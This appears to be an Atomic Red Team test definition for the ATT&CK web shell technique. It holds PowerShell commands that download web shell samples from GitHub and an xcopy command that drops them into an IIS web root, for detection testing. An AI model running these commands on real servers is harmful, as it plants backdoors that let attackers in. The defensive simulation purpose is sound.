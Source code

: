 # T1100 - Web Shell
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1100)
<blockquote>A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server. In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (see, for example, China Chopper Web shell client). (Citation: Lee 2013)

Web shells may serve as [Redundant Access](https://attack.mitre.org/techniques/T1108) or as a persistence mechanism in case an adversary's primary access methods are detected and removed.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)


<br/>

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1100&#92;src&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy #{web_shells} #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path #{web_shells}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{web_shells}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/tests.jsp" -OutFile "#{web_shells}/test.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
